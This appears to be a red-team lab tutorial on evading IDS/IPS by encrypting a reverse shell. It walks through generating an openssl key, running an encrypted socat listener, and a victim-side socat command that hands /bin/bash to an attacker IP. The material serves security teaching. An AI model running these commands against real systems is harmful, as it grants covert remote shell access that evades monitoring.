 ### __Encrypt the Communication Channel__

Because an IDS/IPS won’t inspect encrypted data, an attacker can take advantage of encryption to evade detection. Unlike encoding, encryption requires an encryption key.

One direct approach is to create the necessary encryption key on the attacker’s system and set `socat` to use the encryption key to enforce encryption as it listens for incoming connections. An encrypted reverse shell can be carried out in three steps:

1. Create the key
2. Listen on the attacker’s machine
3. Connect to the attacker’s machine

__Firstly__, On the AttackBox or any Linux system, we can create the key using `openssl`.

`openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt`

The arguments in the above command are:

- `req` indicates that this is a certificate signing request. Obviously, we won’t submit our certificate for signing.
- `-x509` specifies that we want an X.509 certificate
- `-newkey rsa:4096` creates a new certificate request and a new private key using RSA, with the key size being 4096 bits. (You can use other options for RSA key size, such as `-newkey rsa:2048`.)
- `-days 365` shows that the validity of our certificate will be one year
- `-subj` sets data, such as organization and country, via the command-line.
- `-nodes` simplifies our command and does not encrypt the private key
- `-keyout PRIVATE_KEY` specifies the filename where we want to save our private key
- `-out CERTIFICATE` specifies the filename to which we want to write the certificate request

The above command returns:

- Private key: `thm-reverse.key`
- Certificate: `thm-reverse.crt`

The Privacy Enhanced Mail (PEM) `.pem` file requires the concatenation of the private key `.key` and the certificate `.crt` files. We can use `cat` to create our PEM file from the two files that we have just created:

`cat thm-reverse.key thm-reverse.crt > thm-reverse.pem`.

__Secondly__, with the PEM file ready, we can start listening while using the key for encrypting the communication with the client.

`socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT`

If you are not familiar with `socat`, the options that we used are:

- `-d -d` provides some debugging data (fatal, error, warning, and notice messages)
- `OPENSSL-LISTEN:PORT_NUM` indicates that the connection will be encrypted using OPENSSL
- `cert=PEM_FILE` provides the PEM file (certificate and private key) to establish the encrypted connection
- `verify=0` disables checking peer’s certificate
- `fork` creates a sub-process to handle each new connection.

__Thirdly__, on the victim system, `socat OPENSSL:10.20.30.1:4443,verify=0 EXEC:/bin/bash`. Note that the `EXEC` invokes the specified program.
